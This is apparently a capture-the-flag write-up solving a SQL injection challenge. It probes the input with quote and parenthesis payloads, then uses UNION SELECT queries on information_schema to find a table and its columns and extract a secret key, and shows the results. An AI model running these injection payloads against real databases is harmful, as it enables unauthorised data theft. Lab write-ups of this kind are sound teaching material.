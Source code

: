# Challenge - 2

This challenge is similar to the previous one and we have 14 tries to dump the secret key

## Initial Analysis

Here also we have to find  how the developer has given the query so we try giving id the values

```sql
0' or 1=1 --+

0" or 1=1 --+
```

which doesn't give any output and id=

```sql
0) or 1=1 --+
```

gives an output which means the query should be like

```sql
select login_name,password from table_name where id=(input) 
```

### Solving

Now we can find table name like in the previous problem using

```sql
0) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES'; --+
```

which gives us the table name :
**48ov8099bg**

Now we can find the columns in the table using

```sql
0) union select 1,2,group_concat(column_name) from information_schema.columns where table_name='48ov8099bg' and table_schema='CHALLENGES'; --+
```

we get 4 column names:
**id,sessid,secret_0ZH7,tryy**

The secret key can be in any of these columns but we can always go for the most suspicious one and print the secret key using:

```sql
0) union select 1,2,group_concat(secret_0ZH7) from 48ov8099bg; --+
```

We get the secret key:
**vlKvs6ik1lMqJgA2V3Dk8ZMP**
